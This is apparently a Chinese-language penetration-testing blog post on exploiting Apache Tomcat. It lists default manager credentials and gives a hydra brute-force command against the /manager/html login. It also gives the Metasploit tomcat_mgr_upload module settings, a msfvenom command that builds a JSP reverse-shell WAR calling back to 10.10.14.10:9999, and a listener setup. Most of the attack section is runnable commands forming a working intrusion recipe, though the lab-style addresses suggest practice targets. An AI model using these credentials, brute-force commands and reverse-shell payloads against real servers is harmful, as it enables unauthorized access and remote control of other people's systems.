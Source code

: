 ```yaml
---
title: Apache Tomcat 漏洞利用
date: 2021/12/12
tags: [渗透测试,漏洞利用]
categories: 渗透测试
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
---
```




# Apache Tomcat 漏洞利用

---

[参考链接1](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

[参考链接2](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

**通过对apache tomcat的枚举和利用，我们可以从中找出漏洞，然后得到shell**

- 在这里列举出两种情况，第一种情况是哦我们能够访问到/manager目录，第二种情况是我们不能访问到该目录

## 枚举

- 在 Tomcat6 之前的某些版本中，我们可以使用msf枚举用户：

```
msf> use auxiliary/scanner/http/tomcat_enum
```

- 常见的得到的用户名与密码是：

    - admin:admin

    - tomcat:tomcat

    - admin:<NOTHING>

    - admin:s3cr3t

    - tomcat:s3cr3t

    - admin:tomcat

- 当然，我们也可以使用hydra进行暴力破解

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

- 得到了用户名与密码后，我们就可以登录到 /manager/html下传输反向shell

## RCE

- 我们可以使用msf，当然有时候这个并不起效果

```
use exploit/multi/http/tomcat_mgr_upload
show options
set RHOSTS 
set RPORT 8080
set HttpPassword 
set HttpUsername 
set LHOST 
exploit
```

- 当我们使用msf没有用时，我们可以自己制造一个shell传输到网页上
- 创建一个msfvenom payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war
```

- 使用msf的监听模块进行监听（这有时候会收不到反弹回来的shell），或者使用nc监听端口

```
use exploit/multi/handler
show options
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.14.10
set LPORT 9999
exploit
```

- 完成这些后，我们将shell文件传输到web上，如果我们不能访问/manager/，那么就无法进行下一步
- 点击上传的文件在web中的地址，如果监听器没能收到shell，我们可以解压缩之前使用msfvenom创建的 .war 文件，将里面的  .jsp 文件上传，并且访问其网络链接

[点击该链接，说的很全面，但是要按情况选择](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)


